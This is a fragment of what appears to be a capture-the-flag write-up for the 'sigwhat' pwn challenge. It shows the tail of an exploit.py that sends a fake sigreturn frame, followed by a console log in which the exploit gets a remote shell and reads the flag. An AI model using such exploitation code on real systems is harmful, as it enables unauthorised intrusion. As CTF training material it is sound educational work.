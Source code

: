 ```python
payload += bytes(frame) # Our fake structure that will populate the registers

io.recvuntil(b"/sh")
io.send(payload)
io.interactive()
```
{: file="exploit.py" }

```console
loevland@hp-envy:~/ctf/wackattack/pwn/sigwhat$ python3 exploit.py
[+] Opening connection to 20.100.146.44 on port 1040: Done
[*] Switching to interactive mode
$ ls
flag.txt
sigwhat
ynetd
$ cat flag.txt
wack{s1gr3turn_4nd_0bfu5c4t10n_1n_0n3_ch4ll}
```
